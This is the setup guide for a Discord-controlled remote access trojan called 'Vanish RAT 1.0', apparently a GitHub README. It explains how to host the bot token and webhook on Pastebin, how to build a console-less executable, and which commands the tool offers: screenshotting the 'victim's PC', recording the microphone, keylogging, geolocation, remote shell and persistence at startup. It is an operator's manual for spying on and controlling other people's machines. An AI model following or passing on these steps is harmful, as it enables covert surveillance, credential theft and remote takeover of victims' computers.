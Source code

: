 
![discord](https://github.com/user-attachments/assets/341b5144-9c33-40ec-b229-c4ce3ad8a600)


             Discord Rat - Setup Guide
--------------------------------------------------------
Author  : @deadconvicess | Packaged By: #deadconvicess
License : MIT
--------------------------------------------------------

 WHAT YOU NEED
----------------
1. Python 3.11+ Installed
2. A Discord Bot Token (https://discord.com/developers/applications)
3. A Discord Webhook URL (Discord Channel > Integrations > Webhooks)
4. Pastebin or Gist account for hosting config


 SETUP INSTRUCTIONS
---------------------
1. Create a Pastebin/Gist with:
   Line 1: Your Discord Bot Token
   Line 2: Your Discord Webhook URL

2. Make sure it's RAW viewable (Unlisted or Public)

3. Copy the RAW link and paste it into Rat.py:
   Example:
   config_url = "https://pastebin.com/raw/YourPasteID"

4. Install the required packages:
   pip install -r requirements.txt
   OR manually install:
   pip install discord requests pypiwin32 pycaw comtypes opencv-python numpy sounddevice scipy pyautogui pynput cryptography pycryptodome pillow aiofiles pyttsx3

5. Run the bot:
   python Rat.pyw


 OPTIONAL: BUILDING EXE
---------------------------------
For No Console Window:
- Nuitka: pip install nuitka
  nuitka --onefile --windows-disable-console Rat.py

- OR PyInstaller: pip install pyinstaller
  pyinstaller --onefile --noconsole Rat.py


DISCORD COMMAND PANEL
---------------------------
Once bot is running, type:
   .help
To view available commands.

Example Commands:
 - .ss        - Screenshot victim's PC
 - .mic       - Record 15 seconds of mic audio
 - .key start - Start keylogger
 - .geo       - Get public IP and location
 - .shell     - Run CMD commands on target machine
 - .stup      - Add bot to startup
 - .exit      - Disconnect bot


 TROUBLESHOOTING
-------------------
- Check bot token and webhook are valid and accessible
- Ensure all packages are installed
- Make sure you used a RAW Pastebin/Gist link


ENJOY USING VANISH RAT 1.0 

--------------------------------------------------------

